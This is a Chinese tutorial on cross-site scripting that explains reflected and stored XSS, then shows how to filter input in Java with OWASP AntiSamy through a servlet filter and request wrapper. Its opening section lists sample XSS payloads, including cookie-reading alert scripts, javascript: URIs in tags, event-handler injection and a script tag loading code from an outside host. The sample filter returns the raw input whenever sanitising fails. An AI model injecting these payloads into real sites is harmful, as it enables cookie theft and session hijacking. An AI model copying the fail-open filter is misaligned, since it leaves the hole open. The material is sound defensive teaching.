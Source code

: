 #http://www.xuebuyuan.com/2170428.html
#什么是XSS？

XSS(Cross Site Scripting)，即跨站脚本攻击，是一种常见于web application中的计算机安全漏洞。XSS通过在用户端注入恶意的可运行脚本，若服务器端对用户输入不进行处理，直接将用户输入输出到浏览器，则浏览器将会执行用户注入的脚本。

#XSS的分类

根据XSS造成的影响，可以将XSS分为非持久型和持久型。

1.非持久型，也叫反射型XSS。通过GET和 POST方法，向服务器端输入数据。用户输入的数据通常被放置在URL的query string中，或者是form 数据中。如果服务器端对输入的数据不进行过滤，验证或编码，就直接将用户输入的信息直接呈现给客户，则可能会造成反射型XSS。反射型XSS是比较普遍的 XSS，其危害程度通常被认为较小。但是某些反射型XSS造成的后果会很严重，如在输入框的name中输入<meta http-equiv="refresh" content="5"/>，服务器不加处理，将name的值直接送到浏览器，则浏览器会每5秒自动刷新一次。严重者会导致服务器崩溃。

2.持久型，也叫存储型XSS。通常是因为服务器端将用户输入的恶意脚本没有通过验证就直接存储在数据库，并且每次通过调用数据库的方式，将数据呈现在浏览器上。则该 XSS跨站脚本攻击将一直存在。若其他用户访问该页面，则恶意脚本就会被触发，用于盗取其他用户的私人信息。

#常用XSS方式分为以下几种：

1.输入框中直接输入恶意脚本，如：

><script>alert(document.cookie)</script>

2.输入框中输入html标签，在标签中嵌入恶意脚本，如src，href，css style等。

<IMG SRC="javascript:alert('XSS');">;
<BODY BACKGROUND="javascript:alert('XSS')">
<STYLE>li {list-style-image:url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>

3.将恶意脚本注入在event事件中，如onClick，onBlur，onMouseOver等事件。

<a onmouseover="alert(document.cookie)">xxslink</a>

4.在remote style sheet，javascript中，如

<LINK REL="stylesheet"HREF="javascript:alert('XSS');">
<SCRIPT/SRC="http://ha.ckers.org/xss.js"></SCRIPT>

5.META 标签，如

<meta http-equiv="refresh"content="5" />
<META HTTP-EQUIV="Set-Cookie"Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">


#AntiSamy介绍

OWASP是一个开源的、非盈利的全球性安全组织，致力于应用软件的安全研究。我们的使命是使应用软件更加安全，使企业和组织能够对应用安全风险作出更清晰的决策。目前OWASP全球拥有140个分会近四万名会员，共同推动了安全标准、安全测试工具、安全指导手册等应用安全技术的发展。

OWASP AntiSamy项目可以有好几种定义。从技术角度看，它是一个可确保用户输入的HTML/CSS符合应用规范的API。也可以这么说，它是个确保用户无法在HTML中提交恶意代码的API，而这些恶意代码通常被输入到个人资料、评论等会被服务端存储的数据中。在Web应用程序中，“恶意代码”通常是指 Javascript。同时层叠样式表（CSS）在调用Javascript引擎的时候也会被认为是恶意代码。当然在很多情况下，一些“正常”的HTML 和CSS也会被用于恶意的目的，所以我们也会对此予以处理。
 

#AnitiSamy下载

         官方网站：https://www.owasp.org/index.php/Category:OWASP_AntiSamy_Project
         项目地址：https://code.google.com/p/owaspantisamy/downloads/list

                   我们看到Downloads，下载WhereToGet.txt就可以看到下载地址
 

#标准策略文件说明

#antisamy-slashdot.xml

Slashdot (  http://www.slashdot.org/  )  是一个提供技术新闻的网站，它允许用户用有限  的  HTML  格式的内容匿名回帖。  Slashdot 不仅仅是目前同类中最酷的网站之一，而  且同时也曾是最容易被成功攻击的网站之一。更不幸的是，导致大部分用户遭受攻  击的原由是臭名昭着的  goatse.cx  图片  (  请你不要刻意去看  )  。  Slashdot 的安全策略非  常严格：用户只能提交下列的  html  标签：  <b>, <u>, <i>,<a>,<blockquote>  ，并且  还不支持  CSS.  

因此我们创建了这样的策略文件来实现类似的功能。它允许所有文本格式的标签来  直接修饰字体、颜色或者强调作用。

#antisamy-ebay.xml

众所周知，  eBay (  http://www.ebay.com/  )  是当下最流行的在线拍卖网站之一。它是一  个面向公众的站点，因此它允许任何人发布一系列富  HTML  的内容。  我们对  eBay  成为一些复杂  XSS  攻击的目标，并对攻击者充满吸引力丝毫不感到奇怪。由于  eBay  允许  输入的内容列表包含了比  Slashdot 更多的富文本内容，所以它的受攻击面也要大得多。下  面的标签看起来是  eBay  允许的（  eBay  没有公开标签的验证规则）  : <a>,..

#antisamy-myspace.xml

MySpace ( http://www.myspace.com/  )  是最流行的一个社交网站之一。用户允许提交  几乎所有的他们想用的  HTML  和  CSS  ，只要不包含  JavaScript 。  MySpace  现在用一  个黑名单来验证用户输入的  HTML  ，这就是为什么它曾受到  Samy  蠕虫攻击  ( http://namb.la/)  的原因。  Samy  蠕虫攻击利用了一个本应该列入黑名单的单词  (eval)  来进行组合碎片攻击的，其实这也是  AntiSamy 立项的原因。  

#antisamy-anythinggoes.xml 

也很难说出一个用这个策略文件的用例。如果你想允许所有有效的  HTML  和  CSS  元素输入（但能拒绝  JavaScript 或跟  CSS  相关的网络钓鱼攻击），你可以使用  这个策略文件。其实即使  MySpace 也没有这么疯狂。然而，它确实提供了一个很  好的参考，因为它包含了对于每个元素的基本规则，所以你在裁剪其它策略文件的  时候可以把它作为一个知识库。  

策略文件定制

http://www.owasp.org/index.php/AntiSamy_Directives

AntiSamy.JAVA的使用

首先，老规矩，我们需要一个jar包

使用Maven的，在pom.xml的dependencies中添加如下代码

<dependency>
	<groupId>org.owasp.antisamy</groupId>
	<artifactId>antisamy</artifactId>
	<version>1.5.3</version>
</dependency>


配置web.xml

<!-- XSS -->
<filter>
	<filter-name>XSS</filter-name>
	<filter-class>com.xxx.XssFilter</filter-class>
</filter>

<filter-mapping>
	<filter-name>XSS</filter-name>
	<url-pattern>/*</url-pattern>
</filter-mapping>


#其中XssFilter为自定义的class，该类必须实现Filter类，在XssFilter类中实现doFilter函数。将策略文件放到和pom.xml平级目录下，然后我们就开始编写XssFilter类。

public class XssFilter implements Filter {
	
	@SuppressWarnings("unused")
	private FilterConfig filterConfig;

	public void destroy() {
		this.filterConfig = null;
	}
	
	public void doFilter(ServletRequest request, ServletResponse response,
			FilterChain chain) throws IOException, ServletException {
		chain.doFilter(new RequestWrapper((HttpServletRequest) request), response);
	}

	public void init(FilterConfig filterConfig) throws ServletException {
		this.filterConfig = filterConfig;
	}
	
}

#需要重写request，新建一个类RequestWrapper，继承HttpServletRequestWrapper，我们需要重写getParameterMap()方法，以及过滤非法html的方法xssClean()

public class RequestWrapper extends HttpServletRequestWrapper {

	public RequestWrapper(HttpServletRequest request) {
		super(request);
	}
	
	@SuppressWarnings({ "rawtypes", "unchecked" })
	public Map<String,String[]> getParameterMap(){
		Map<String,String[]> request_map = super.getParameterMap();
		Iterator iterator = request_map.entrySet().iterator();
		while(iterator.hasNext()){
			Map.Entry me = (Map.Entry)iterator.next();
			//System.out.println(me.getKey()+":");
			String[] values = (String[])me.getValue();
			for(int i = 0 ; i < values.length ; i++){
				System.out.println(values[i]);
				values[i] = xssClean(values[i]);
			}
		}
		return request_map;
	}
	

	private String xssClean(String value) {
        AntiSamy antiSamy = new AntiSamy();
        try {
        	Policy policy = Policy.getInstance("antisamy-myspace-1.4.4.xml");
        	//CleanResults cr = antiSamy.scan(dirtyInput, policyFilePath); 
            final CleanResults cr = antiSamy.scan(value, policy);
            //安全的HTML输出
            return cr.getCleanHTML();
        } catch (ScanException e) {
            e.printStackTrace();
        } catch (PolicyException e) {
            e.printStackTrace();
        }
        return value;
	}
}

